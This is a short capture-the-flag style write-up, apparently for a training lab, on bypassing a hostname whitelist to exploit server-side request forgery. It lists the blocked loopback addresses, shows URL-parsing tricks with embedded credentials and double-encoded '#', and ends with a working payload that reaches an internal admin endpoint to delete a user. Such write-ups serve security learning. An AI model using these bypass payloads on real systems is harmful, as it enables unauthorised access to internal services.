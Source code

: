 `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

decoding it :

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1

1- trying 127.0.0.1 :

![image](https://user-images.githubusercontent.com/67979878/128301003-3d057b64-2514-4309-a183-3c460d7ac5cb.png)

same case with 127.1 and 2130706433 and also with internal ips' 192.168.x.x

keep printing "External stock check host must be stock.weliketoshop.net"

Bypassing :

example :
```
www.google.com@www.facebook.com              :will direct you to facebook 
https://www.google.com/#www.facebook.com     :will direct you to google 
https://www.facebook.com/#@www.google.com/   :will direct you to facebook 
hence that useful information let's try :
```

https://www.google.com%2523@www.facebook.com/about   : direct you to facebook.about


solution :
```
Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
Append a # to the username and observe that the URL is now rejected.
Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos to access the admin interface and delete the target user.

```
hence that this works :


http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos  



